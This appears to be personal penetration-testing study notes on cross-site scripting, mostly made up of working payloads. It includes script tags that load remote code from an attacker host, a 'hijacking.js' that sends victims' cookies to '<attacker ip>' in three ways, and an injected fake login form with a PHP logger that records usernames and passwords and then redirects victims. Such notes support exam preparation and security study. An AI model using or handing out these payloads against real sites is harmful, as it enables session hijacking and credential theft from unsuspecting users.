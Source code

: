Cross-site scripting

https://portswigger.net/web-security/cross-site-scripting

Payloads

https://www.youtube.com/watch?v=KHwVjzWei1c<br>
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss<br>
https://github.com/terjanq/Tiny-XSS-Payloads<br>

```js
<script>alert(window.origin)</script>
<script>alert(document.domain)</script>
<img src="" onerror="alert(window.origin)">
```

Session Hijacking

testing payload

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```js
// sudo python3 -m http.server 80
// remote script
<script src="http://<attacker ip>"></script>
// note that html in the front
'><script src="http://<attacker ip>"></script>
"><script src="http://<attacker ip>"></script>
```

hijacking.js

```js
// enter a workable payload into the vulnerability input field
"><script src="http://<attacker ip>/hijacking.js"></script>
```

```js
// hijacking.js
var oReq = new XMLHttpRequest();
oReq.open('GET', 'http://<attacker ip>/?output='+document.cookie, true);
oReq.send()
// hijacking.js
document.location='http://<attacker ip>/?output='+document.cookie;
// hijacking.js
new Image().src='http://<attacker ip>/?output='+document.cookie;
// and so on
```

using cookie to access (e.g., Firefox DevTools)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/XSS/XSS_Login.png)

Phishing

```js
// confirm that the request can be sent out normally
document.write('<div><form id="form" action="http://<attacker ip>/phishing.php"><input type="text" id="username" name="username"><input type="password" id="pass" name="password"><button type="submit">Submit form</button></form></div>');
```

```php
# sudo php -S 0.0.0.0:80
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("phishing.log", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://<target ip>/index.php");
    fclose($file);
    exit();
}
?>
```